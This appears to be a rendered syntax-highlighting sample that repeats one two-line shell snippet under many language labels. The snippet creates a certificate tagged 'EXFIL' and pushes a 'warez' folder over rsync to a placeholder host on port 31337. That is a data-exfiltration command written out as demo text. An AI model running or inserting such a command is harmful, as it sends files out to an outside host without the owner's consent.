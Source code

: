 ```abap
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
haxe
```haxe
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
html
```html
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
ini
```ini
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
io
```io
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
jade
```jade
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
java
```java
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
javascript
```javascript
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
json
```json
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
jsoniq
```jsoniq
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
jsp
```jsp
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
julia
```julia
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
less
```less
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
liquid
```liquid
```